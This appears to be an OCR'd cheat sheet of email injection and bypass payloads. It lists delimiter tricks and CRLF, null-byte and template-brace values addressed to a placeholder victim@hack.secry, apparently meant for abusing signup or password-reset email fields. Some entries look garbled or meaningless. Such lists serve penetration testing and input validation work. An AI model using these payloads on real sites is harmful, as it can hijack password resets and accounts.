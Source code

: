 ```yaml
---

### **Email Injection & Bypass Techniques**

#### **1. Email Injection Patterns**
- email1/=email2
- {email1;...;email2}
- email1f=$email2
- [email1,email2]
- $(email1:email2)
- email1 >> email2;
- [email1]#[email2]
- email1==email2
- email1*1=email2*1
- email1^email2
- email1;email2
- email1->email2
- email1 ... email2
- email1 != email2
- email1'...'email2
- email1/../../email2
- (email1)=email2
- /email1/+/email2/
- email1@email2@
- email1;email2
- email1×0=1=email2
- email1|email2
- email1(*)email2
- email1#>email2
- \email1\email2
- \email1/email2

#### **2. Email Bypass Examples**
- email@email.com,victim@hack.secry
- email@email“,”victim@hack.secry
- email@email.com:victim@hack.secry
- email@email.com%0d%0avictim@hack.secry
- %0d%0avictim@hack.secry
- %0avictim@hack.secry
- victim@hack.secry%0d%0a
- victim@hack.secry%0a
- victim@hack.secry%0d
- victim@hack.secry%00
- victim@hack.secry{{}}

---
```


### **Registration & Signup Vulnerabilities**
